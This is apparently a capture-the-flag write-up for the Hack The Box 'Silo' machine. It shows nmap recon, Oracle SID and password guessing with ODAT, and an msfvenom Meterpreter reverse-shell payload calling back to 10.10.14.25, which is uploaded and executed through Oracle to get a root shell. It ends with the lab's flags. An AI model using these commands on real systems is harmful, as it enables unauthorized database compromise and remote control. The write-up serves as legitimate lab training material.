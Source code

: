 ```yaml
---
layout: post
title:  "HTB Silo Windows"
description : Tools and techniques used, ODAT, msfvenom
tags: HTB, oracle
---
```

# HTB Silo
## Recon
```ruby
Basic_10.10.10.82.nmap 10.10.10.82
Nmap scan report for 10.10.10.82
Host is up (0.046s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 8.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp open oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49157/tcp open msrpc Microsoft Windows RPC
49160/tcp open oracle-tns Oracle TNS listener (requires service name)
49161/tcp open msrpc Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```
## Exploitation: Oracle Database Attacking Tool
* We gonna use install ODAT to query the Oracle database and find away to exploit it
```javascript
https://github.com/quentinhardy/odat
cd odat/
git submodule init
git submodule update
sudo apt-get install libaio1 python-dev alien python-pip
```
* Get instant client basic, sdk (devel) and sqlplus from the Oracle web site:
```ruby
X64: http://www.oracle.com/technetwork/topics/linuxx86-64soft-092277.html
```
* Generate DEB packages from rpm packages
```ruby
alian --to-deb *.rpm
```
* Install deb packages
```ruby
dpkg -i *.deb
```
* Finally we need to edit our /etc/profile and put the following PATH lines
```ruby
export ORACLE_HOME=/usr/lib/oracle/19.3/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=$ORACLE_HOME/bin:$PATH
```
> Sometimes when try to run oday.py will throw an error saying that cx_Oracle dependency module is missing. If that happens:

```ruby
pip2 install cx_Oracle
```
![odat](https://lh3.googleusercontent.com/kp-mH-gMcOqg7zPRt9fMAl0nqg5PlOSgH9jAj25Uy9r_JYxmacaflyYhiksT-r9H3W4HF9UW-dhM0EYDhIl2MloofU2DtIIxBpdDkcDfM6TZjFf3WOvI6k_HO9Lx60QYgXlymkb0G1idb0NS2FKWCVaHpV4WubO1EO3B16RhgNt5W6QJwNvvK5kjtWzb3Rc8RcNqJ6PV2UgCtF27D838agHqTUnc7Mrrj9qdXRWMMzDBgiuiRrYKRQWYbZ7MWReTKZSKG1-FvMv1aYusvvt0sbO5pj3cV3GlQWa1R2fXTI1i7UVfr8MKWiUaGeIRSTJ4NUyI1LUKFot6GOK3c8LTFChjWD3WdyQhcJZXj_WqZoaVOWLtbhae11dglP3jOM5fkC-cEMDnYbKDHS7pFaho7YlkPvbi7FV60DU-3Xs43q9cl3TpsHKEb916ubQJmmiX7uwzHUGkunQZjaYaB3aTREp6fFxAAkvQTPqj6VtDbzG8FTJjt9S70Np_BAuIVBAyutdVSg56Qj941M4PVa9crufsyc7zDIs9SeBENvvXjA3hbVHzY-aBS4zSQEi7axL6DTDhmdh5tCdNbrPw-RYfIM_YtDzDOUrAJAJo-DONRVpThHWSBE5UMoLXs47nPxkb1jlGmpLZY2Cf8Z50MiAg9n32scPB9pVf8A1N_S977ik43jU9BPdH8Gs=w711-h348-no)


* We start odat and we use the module **sidguesser**
```javascript
python odat.py sidguesser -s 10.10.10.82 -p 1521
```
![](https://lh3.googleusercontent.com/hEq9szP50RKA_3RhEiM9xws66An6o2vLUtWFSvI9EaFKAPLeME7i-GHA5VewAYrYPwJdXvN2cu9HXMDA0NANeO4EdZqTO5-Cxjz05dgMZWTEZoexwDlIoen6SgxJoFAW-u-0XqAFIV08T_FV_OV0_JGTtYYfEl3uUmHF0n6GvZnURdYs5JJ0jBIm8Nlx6fcSkQGDMFD_v4YPruTzrcjV_VexGSGIrIWJ6fQJVdL5LdN_MuWXABgFfrwalDwXgYki87PqGGY5Yq0PSL8XNtFyZ_DWdr6Ji96hOFE3hw5_81cEuPJ0nazKcrmTn5VetGD4coaOdNV-nhEXFSOaiBQp2CoHqZJtMT22Nx-Tnleij0sE0phWt5KlbtufJRIbAY4-y5WuYd-W-BmLWzVM7TbLxBZtfOenzqjr-gICND4THCrE6FhxCl2SgumXE4ktvRRJcFF5oF5BggQVta3ARwUgjyzHI7nEZMeY7jxNKg8sNeWfS1M8qNuwa9VxfBiRRPR7C7r7K0MeBJwrrlTiIKPxUS-hdvG1LE21wW5zsWeGKwKCnSGFe-XEAEfUE2jcGUpyI0UF6BraPNx0043g-U5yizWaDweFyl0xIn8vJD6mOeZbLgYsxEmOnSSkDFi1aG7qli-iZpgnaclN9t2NLmjG_omUa8WRj0aMBjhRygZ9ZJo_TvEyNesml4s=w590-h461-no)

* Sidguesser returns two potential valid SID: **XE,XEXDB**
![](https://lh3.googleusercontent.com/h3yksJJBLdywJSs0XC-D4VtOi6Z9pZuwvefCbY44hZb1B3o3zeZQPv4Oxjuk6-y_KRrACC1BRdDkM9ly5M3mB9pKnxNrEihlyMwo-xwYGOXezUbtXrJjP4OvX8arAaZyKo52votOF_dJIkKcn_jA5gofm49l7UNt0ojOupsPmm8Hxxpf8-_aG4HF1bHKZnXE4txvB9ziIXOhze0IKhVQOMOlkRK1P6d35X4gR4t-7R1BEIuXFe2ddk0bCQYkcN64NMWVZNU4WRjrBL5KAxcakCjjaA68M4JLO2q7XeOOj_RskZsMX7Uz2luqUe-qAasA7Up8K3t1rr5yZDWeG2_mNomNX56EpOBHW8w5qAWYjQT_EbWOj64tzWEcACu23pecqQYEQw0K01l7IFHs6oU88OyrSta-B_KPYg7OOheH-JGV2LQvYite3zi6CDoTgU8cP98dTZrvpVBipIkrtlmF88G6RsNnsualTZb94BLIPiVw94Oropz9XlzHivG0QuNHOxkcIaRKIeLSfSFRmKxuukx3npQ2ZnNsliZO6XoWkCQLeXhKta1Glf9wjDCvfmhA0F5ismu1RtljeEMKzqnz_WB_sJcnp-6vKSTSMnn9Laxa9QCoOkvAXv3W6qRNFMNmLWyOFyxmkvILHxl6VABeYijVOhcDAas3IjgYN-ZUbbnVEsfJlVM-ZjE=w913-h289-no)

* Time to get some creds by usin passwordguesser
```javascript
python odat.py passwordguesser -s 10.10.10.82 -d XE
```
```ruby
Valid credentials found: scott/tiger.
```
![](9https://lh3.googleusercontent.com/SqWEOd29qiiLEfqNhbm6GArlECaBiC7tjlbtjcsHQWmxNjOBPvLqgVkp-b9XFZcmZYTUFZVt_xVdxRFY98PuwPW02G8JjVlS5ZwpmBP6hxkhCi5yxw4-EEcwZpAaBRNXaAs4n8nHkb6BI6phb1ma79ak8el3O_Xu2BzMzUXgidNR-4WVnj4pE9zqr_Plu-6r3A8bBAtsq4lRGj2kqFZEfd8oME19tDW-qH9jkhrfvgeWomlotbqdpRYdW_rZVih9P007__BtsKIdQ7an6TQT3JZc0J_uoK7zDF40A32jgMUwN9R4Dph1M-wn-qdRQ_A3XkWtyVvKyl6o7xVJje-Z63nDb26ADPUfG4oQr4FVPqYXrQsgPhV9U2hMessEU4JcdAWUj0Mzh1qOfZKoDS1mg4r-dinuI-_dMVIV2SyuRR6pbqzG7T3T8P9PQYbctWuDF0uPGOXe4-V4l6n2W2YPSzhSnnyP-UNORVFOAxRy4M6ALuktnRHx4yz2GAECy5y6PLr6dHTNrWYMUnE7QRfcXfxeYtyS5n0pxLUwb7N74GOdA0vt3Rrr9zUjh-TJoLM3pns6b-EakA7cD_DFDY3b9VCHxeqnW6GoZhGAvyiKUH7KLJqt4kqqHX-YVcN6hrCRmVBroUMXo76sIaNOcWGRKjMvIngIBndjp4QLfR-3QUxV1DhC4Zhj8uo=w975-h232-no)

* We gonna use the utlfile module to upload a reverse shell using msfvenom
```ruby
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.25 LPORT=9999 -f exe -o evil.exe
python odat.py utlfile --sysdba -s 10.10.10.82 -d XE -U scott -P tiger --putFile /temp evil.exe /root/
Desktop/evil.exe
```

* Then we gonna exec our shell using the **externaltable** module from odat
python odat.py externaltable --sysdba -s 10.10.10.82 -d XE -U scott -P tiger --exec /temp evil.exe

![](https://lh3.googleusercontent.com/-Krzjvbkc06_U7GE4sEFeTFClz5_kt8Ie7Hi0LStMElArvHcNhpuZtbDkGu-nadCXMPh_rLKZr58iGW9-oW1Ui5x-D2X-JRvLWbT6vxnYZe1BuUubrIG7pLrFBdEig1t6_mVRyRVVnNe7RnTgA37Quwq4TnElNDkbd_ESNCqZMZqQexS1YoURhWjKweTRfvKcCtLlJDnBxqLzUQBml82UDxszENpoOhIqYrXZnTWRPmIPCrp0SwYykZBuEmNS5dz8HDm4UHX1msHIJ3IRIAEZlIr6es14LvJYKE7NDWC0M1_FwlNgxM1aBzG_CrzJw5ibLN5a2CdM76WJ_aBsalnXKGu-p0mDhImhTwdScCNBaODY-6UsZenOipkt430ODG5KQkD6QAWBVJiWF-dH2IjP5gyfl1luPudYs2zLrL6El0w7CsvsSreK7zXyrh0jgkt8xFwGLSlJ1zADEqEJrmQjdHv9Bn1xRPkCX1fYANyZuT1mO6QTAQW-JX1qcxIWDO887zFw-O7rvgV-zGFBrAa8_JjBnIIpxMKWvaqW2ZuO865oPaxqWRo--eo0poyYxOt5frVK58F7mYrMeIfMr4U4t1l7cu7GBvrgze_iDA1uD1KIOLrmHnVrFjT5jH05XvZmoOmCczrnhijMLhsYYoo_blP-VNrJ2wpy3vPD04PK775cAw2NSAxXu4=w1265-h97-no)

![](https://lh3.googleusercontent.com/pV9ug_tfK2HYY-T-BDqI7nH00U4_nbGp4FbrbUNdFdij8xqFrI-Npm3kjOWBJ2i4se3wVUSsTZXS7Gp-Dmkf-VXaTPKQ-JXSGlfoDHOcMrDLM0-25F4M94r2pxf_VZpC52ijsA8QL1x6qNXgUGq8mX-XEfRY-PNU_SRoRBOugvTdv-Jwd7wPdSTjwVJOnCKvie-cDIhMKkivsI3bMO_4yc2L7_MighBeG-66DUXt3wQC8N4l4COTUf_3QpsBHXhqc7C2hcLJq5Xb72LJXAOU-v_rY5rVn2FLNcCqIE2Xi7fx79Vd0p3s1A0bWkeZHC1Al4ylneTEGVDvRtpSY-XpX2M1bK0g-rTLBlk6r34fgtClw3bJAuknHdDQnwQf_bBTd_NGruquONYqdzrfQGrW1xX2OoP2wJjBPLD2UaajZ-c_D0NCQo_s_LkJYfT-C_vFz0Y8Y_UG5dWglkn1kBBm3PAuXg0qcJgs-oqqnN66ECPQUL4oa1TOM5k6oRlu-jH8CMW7oKqbYZLdosWPP4gN8-HzvocD6qbc4Rto6p-FBe6mRcnwnzdIsS82UzY2zirGwVVjUfb3MUK3Fg2ttpgh2-l3BvZlh0rQ4WlGROG5NMr1t1nfCh5bnjhM80ahdGxn-GP5K8eSN87hNMF5Gvr7O91C8zXhS4PlCnBJZ_DOzg2G5FwPpyMs8PI=w1157-h80-no)

* Finally we got root shell.

![](https://lh3.googleusercontent.com/YEib8--SF8_5x82BeuFNISJXM1Bu2nkY3YID88KZJ-ASnDqkv-0CV9Kq1CzppMB1ClBhEKvYZtSd2TxSSpRe_fucOD7HSvdLYbMpgXDIXclu4AyprmILXdGZ5Ld8Ts-nlkXLoAt4p43nDPNOhDGvofUL8YcFt466s2dFdMUWibdAS6K8G7HaqwoGjAOFDl0Q8WCFUFZOvpF13MU1g6NLQPwLeyY_F2Sortd389ziUue459wPSfPulKuTv1tgIBX1-vH6uams9C9f7goPagNsaxJqpNqhuNfmfVgxievovLzzHVdqR9_phE1Vil8M2HCbHKASmXoRJz_Yw_a9XEfuyKXRiEkUVGzbw_To4GCW8U13kD9LSHGpJKXvR2AjQo5dohAwmhRsvrpJ6uqcjlCA2pVFulpmOFeUboz_STHeutqitH154hghJAz47YSo8HRwxg2XUgcxgiDFJyYZfP5s3UY6WesWhNO_yAOv9j2D9OFwUZyxw7j1bENy72e4Rd_Ch9neRyqIea7Vke2ysOzAqj9JJdYKqzPpwYWXtx4WnHHmXU8NCQP3stMXaJwa0orkGqk504IvTR-mtT981vETpcTUrucc6tAK7x5adTHwpal_0PrC9l8mlM5369mNWp7LUnoM0KgwD2Et6NKGxyLH5KBgaClT1_FVKuB3k91Vt6Hdy1GIWdeW6YE=w724-h159-no)

# FLAGS

> ROOT : cd39ea0af657a495e33bc59c7836faf6 

> USER : 92ede778a1cc8d27cb6623055c331617




